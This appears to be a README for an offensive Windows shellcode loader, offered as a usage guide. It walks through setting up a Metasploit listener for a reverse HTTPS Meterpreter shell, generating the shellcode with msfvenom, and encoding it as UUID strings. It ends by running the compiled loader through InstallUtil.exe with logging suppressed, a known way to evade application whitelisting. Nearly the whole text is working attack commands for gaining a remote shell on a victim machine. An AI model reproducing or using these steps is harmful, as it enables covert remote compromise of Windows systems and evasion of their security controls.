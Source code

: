 ```msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST eth0; set LPORT 443; exploit"```
```msfvenom -p windows/x64/meterpreter/reverse_https LHOST=eth0 LPORT=443 -f raw -o shell.bin```
```python3 payload_uuid.py -p shell.bin > shell.txt```

In notepad++ Ctrl+h in Replace tab add in Find what field ^(.*)$ and in Replace with field "\1",
Remove from the last line the comma.
<br>
<br>
![image](https://github.com/user-attachments/assets/6c6aeb08-b354-4f0a-9e07-7adb1fc12b80)
<br>
<br>
Add the final shellcode to the "Shellcode" variable.
Compile as Release .
<br>
<br>
![image](https://github.com/user-attachments/assets/6c770e2f-f0c7-4a4b-98ab-a6496ead6438)
<br>
<br>
In order to run the loader with installutil:
<br>
``` C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false .\solomon.exe```
